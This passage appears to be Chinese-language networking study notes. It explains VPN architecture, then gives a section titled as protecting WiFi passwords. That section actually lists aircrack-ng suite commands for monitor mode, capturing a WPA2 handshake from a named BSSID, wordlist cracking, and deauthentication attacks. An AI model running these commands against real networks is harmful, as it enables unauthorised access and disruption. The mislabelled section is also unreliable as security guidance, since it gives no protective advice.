           ┌───────────────┐               ┌───────────────┐
          │  客户端设备   │               │  目标服务器    │
          └───────────────┘               └───────────────┘

```

工作原理说明：
- VPN客户端：用户运行在自己设备上的VPN客户端软件，用于与VPN服务器建立连接。

- VPN服务器：由VPN服务提供商管理的服务器，用于处理客户端与目标服务器之间的通信。

- Internet：公共互联网，作为数据传输的媒介。

- 客户端设备：用户的计算机、手机或其他设备，需要通过VPN访问目标服务器。

- 目标服务器：用户希望访问的具体资源或服务所在的服务器。

VPN 的工作原理如下：

- 用户在本地设备上运行 VPN 客户端软件，并输入所需的连接参数，如服务器地址、用户名和密码。
- VPN 客户端通过Internet连接到 VPN 服务器。这通常使用加密的通信协议（如 OpenVPN、IPsec 等）来确保连接的安全性。
- 一旦建立了 VPN 连接，所有通过 VPN 客户端的流量将被加密并通过 Internet 传输到 VPN 服务器。
- VPN 服务器解密接收到的数据，并将其转发到目标服务器。
- 目标服务器将请求的数据返回给 VPN 服务器。
- VPN 服务器再次加密响应数据并通过 Internet 传输回 VPN 客户端。
- VPN客户端解密响应数据，并将其发送到用户的本地设备上进行处理和显示。
通过建立VPN连接，用户可以在公共网络上创建一个安全的隧道，使得他们的网络流量在传输过程中得到加密保护。这样可以实现远程访问内部网络资源、保护隐私和绕过地理限制等功能。
需要注意的是，具体的 VPN 实现和工作原理可能因使用的协议和技术而有所不同。上述示意图只是一个简单的示例，真实的 VPN 架构可能更为复杂。

### 6.5 如何防护WiFi密码

首先要用到 kali 系统【渗透测试专用】

- 开启无线监听模式`airmon-ng start wlan0`[airmon-ng查看网卡监听状态]【monitor】【信号值大于65别连了】
【WiFi有ch频道】[wpa2是无线网加密类型]
- 扫描范围 `airodump-ng wlan0mon`
- 抓WiFi握手包`airodump-ng --bssid 52:02:05:9D:62:F9 -c 6 -w sxny wlan0mon`( wifi 密码就在握手包里面)
手动添加 ssid
- 破解密码`aircrack-ng -w top100.txt sxny-02.cap`
- wifi攻击`airplay-ng -0 8 -c mac地址 -a mac地址 wlan0mon`

- 终于算是告一段落了。现在时间是 2024/3/11 0:34:57 
